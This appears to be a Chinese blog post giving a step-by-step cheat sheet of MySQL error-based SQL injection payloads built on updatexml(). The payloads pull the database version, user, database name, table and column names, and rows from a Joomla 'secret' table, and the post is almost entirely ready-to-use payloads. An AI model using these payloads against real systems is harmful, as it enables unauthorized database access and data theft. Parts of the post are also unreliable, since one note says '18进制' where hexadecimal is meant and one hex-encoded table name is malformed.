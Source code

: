 ```yaml
---
title: '通过updatexml进行sql报错注入'
date: 2020-6-22 22:37:40
tags: 网络安全
---
```


#### 1.爆数据库版本信息

```shell
updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

#### 2.链接用户

```shell
updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)
```

#### 3.链接数据库

```shell
updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)
```

#### 4.暴露数据表名称

```shell
updatexml(2,concat(0x3a,(SELECT(HEX(TABLE_NAME))FROM(information_schema.tables) LIMIT 0,1),0x3a),1)

表名称返回的是16进制，需要转一下。
```

#### 5.暴露数据表的列名称

```shell
updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name=66333261685F6D656E755F747970657 limit 0,1)),0)

表名称需要换成18进制。
```

#### 6.查数据

```shell
updatexml(1,concat(0x3e,(select concat(id) from joomla.secret limit 0,1)),0)

根据数据库名称和表名称查询数据库。
```
